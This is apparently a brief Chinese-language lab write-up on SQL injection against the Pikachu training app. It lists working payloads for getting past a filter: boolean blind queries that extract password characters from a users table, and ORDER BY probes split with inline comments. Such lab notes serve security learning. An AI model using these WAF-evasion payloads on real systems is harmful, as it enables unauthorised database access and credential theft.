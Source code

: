 ![image-20250319223257723](sql注入/image-20250319223257723.png)

```sql
?name=vince'and+0x2!=1--+
# your uid:1
your email is: vince@pikachu.com
```

成功绕过

```sql
?name=vince'and+substr(user()+from+1+for+1)--+
```

被拦截，尝试使用布尔绕过

```bash
?name=vince'and+0x31!=if((substr((select+password+from+`users`+limit+1)from+1+for+1)='a'),0x31,0)--+  # 回显
?name=vince'and+0x31!=if((substr((select+password+from+`users`+limit+1)from+1+for+1)='e'),0x31,0)--+  # 不回显
```

尝试联合注入

```sql
?name=vince'order+by+1--+ # 被拦截
?name=vince'order/**/by+1--+ # 被拦截
?name=vince'order/*//*/by+1--+  # 成功绕过

?name=vince'order/*//*/by+2--+	# 回显
?name=vince'order/*//*/by+3--+	# 无回显
```

